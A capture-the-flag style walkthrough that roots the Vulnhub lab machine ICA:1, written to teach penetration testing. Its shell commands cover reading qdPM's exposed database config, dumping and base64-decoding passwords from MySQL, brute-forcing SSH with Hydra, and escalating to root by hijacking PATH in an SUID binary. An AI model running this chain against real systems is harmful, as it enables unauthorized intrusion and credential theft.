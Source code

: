 # Walkthrough for Hacking ICA:1

To view the screenshots properly on your mobile, you can zoom in.

In this walkthrough/writeup, you'll discover how to hack ICA:1, a virtual machine designed to help you sharpen your penetration testing skills. With step-by-step instructions and screenshots, you'll learn how to identify and exploit vulnerabilities, analyze traffic, and gain root access to the system.

## Solving Vulnhub Machine ICA:1 - Step-by-Step (No Audio) [lofi beats] [HERE](https://youtu.be/ct0UEmBjsyU)

**The steps:**

Here's a brief overview of the steps needed to solve this Vulnhub machine:

1. Abusing qdPM 9.2 - Password Exposure (Unauthenticated)
2. Remote connection to the MYSQL service and obtaining user credentials
3. SSH brute force with Hydra
4. Abusing relative paths in a SUID binary - Path Hijacking [Privilege Escalation]

**The walkthrough:**

Before we begin, it's worth noting that I completed this walkthrough using Arch Linux as my operating system and VirtualBox as my virtual machine software. If you're using a different operating system or virtualization software, you may encounter some differences or additional steps that aren't covered in this guide. However, the principles and techniques covered in this walkthrough should still be applicable regardless of your specific setup. With that said, let's get started!

Now let's see which ports are open on the victim's machine using NMAP:

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ipvictim
```

Now, as an attacker, I want to see what I'm up against, so I want a more thorough scan.

```shell
nmap -sCV -p22,80,3306,33060 ipvictim
```

As I see that port 80 is open, I can scan the website that says "http title: qdPM | Login" in the NMAP scan, so I will have to check it.

Let's use the `whatweb` tool to check the web server. This tool applies reconnaissance to detect the technologies running behind the website, as well as a content manager such as WordPress, Drupal, or whatever is appropriate.

```shell
whatweb http://ipvictim
```

We see that the jQuery version is a bit old - 1.10. Old versions are usually vulnerable to XSS | prototype pollution. We continue to see "http title: qdPM | Login", we search on Google to see what it is, and it turns out to be a web-based project management tool. We check the website to see what it's about.

We can see a login panel and the version of the tool, which is 9.2. We immediately search if this has a vulnerability using the command in the terminal.

```shell
searchsploit qdPM 9.2.
```

We find the vulnerability "password exposure (Unauthenticated)". We review the `.txt` file that searchsploit gives us using the following command:

```shell
searchsploit -x php/webapps/50176.txt
```

It tells us the following: The password and connection string for the database are stored in a `.yml` file. To access the `.yml` file, you can go to `http://<website>/core/config/databases.yml` file and download it.

```shell
http://ipvictim/core/config/databases.yml
```

We do what the exploit suggests and download a file when accessing the address. When we open the file, we see the names

 of the database, username, and password.

We try to connect to MySQL using the following command:

```shell
mysql -u qdpmadmin -h victim_ip -p
```

We successfully connect to the database. Let's see the exposed databases:

```shell
show databases;
```

We list the database with the name "staff":

```shell
use staff;
```

We see the tables:

```shell
show tables;
```

We check what's inside the "user" table:

```shell
select * from user;
```

We see several users and their roles, now let's check what's inside the "login" table:

```shell
select * from login;
```

We see the encrypted passwords in base64. We try to decrypt one using the following command in another terminal:

```shell
echo "c3VSSkFkR3dMcDhkeTNyRg==" | base64 -d; echo
```

We assume that the result of this command is the password. We will decrypt each password and export it to a file in the following way:

```shell
for password in c3VSSkFkR3dMcDhkeTNyRg== N1p3VjRxdGc0MmNtVVhHWA== WDdNUWtQM1cyOWZld0hkQw== REpjZVZ5OThXMjhZN3dMZw== Y3FObkJXQ0J5UzJEdUpTeQ==; do echo $password | base64 -d; echo; done | tee filename
```

We will list the users we saw in the "user" table of the database in a file. You can use nano or nvim for this. Remember to write usernames in lowercase.

If we look at the open ports, we see that port 22 is open and the service is SSH. We will try to connect to the machine with these users using Hydra. We will play with the user and password lists we just created to see which one works:

```shell
hydra -L user_file -P password_file ssh://victim_ip
```

We see that two users are correct. Now we have a way to connect to the machine with SSH.

```shell
ssh travis@victim_ip
```

We enter the password when prompted. We have a successful connection.

Now we will check that we are on the victim's machine with the command:

```shell
hostname -I
```

We are indeed logged into the victim's machine.

Now we list the files this user has:

```shell
ls
```

There is a file called "user.txt", we open it with the command:

```shell
cat user.txt
```

It only says "ICA {secret project}". So now we will check what files the other user has, we use the command:

```shell
sudo dexter
```

We enter the password when prompted.

We go to the home directory with the command `cd` and check what is there with the command `ls`. We see that there is a file called "note.txt". We open it with the command `cat note.txt`. The note tells us that the contents of the executables are partially visible. They are giving us a hint that there is a binary here, and we need to take advantage of it.

We move using the command `cd /` and we will search for files whose privilege is SUID and owner is root with the command:

```shell
find -perm -4000 -user root 2>/dev/null
```

We find a suspicious file `./opt/get_access`. Let's check the privileges of this file

:

```shell
ls -l ./opt/get_access
```

We realize that the owner is root and it has SUID privilege. We will execute it:

```shell
/opt/get_access
```

It gives us some data, so we try to use "strings" to list the printable character strings of this binary:

```shell
strings /opt/get_access
```

We find "cat /root/system.info". The binary is playing with "cat" to represent the contents of a file. But if we look more closely, "cat" has its absolute path "/usr/bin/cat" and is referenced relative to the binary, so we can try to do a Hijacking Relative Paths in SUID Programs.

So we can hijack the binary in the following way:

```shell
cd /tmp/
```

Create your own "cat":

```shell
touch cat
```

Give it execution permissions:

```shell
chmod +x cat
```

Then we play with the "PATH":

```shell
export PATH=/tmp:$PATH
```

Now when we execute the binary, since it executed "cat" relatively, it will now execute our own "cat" and since the owner is "root" and it is an "SUID" binary, we can alter the content of our "cat" to assign "SUID" privilege to "bash". We open our "cat" and write the following in it: `chmod u+s /bin/bash`. If you can't use nano to edit the file, write `export TERM=xterm` and press enter. We close the file and proceed to execute the binary `/opt/get_access`, and it tells us:

```shell
"All services are disabled. Accessing to the system is allowed..."
```

If we check the permissions of "bash":

```shell
ls -l /bin/bash
```

We see that it is now SUID, and now we can literally do whatever we want.

```shell
bash -p
```

We return the "cat" PATH to its normal state:

```shell
export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games/:/usr/games
```

We look for the "root.txt" file and have successfully completed the machine!
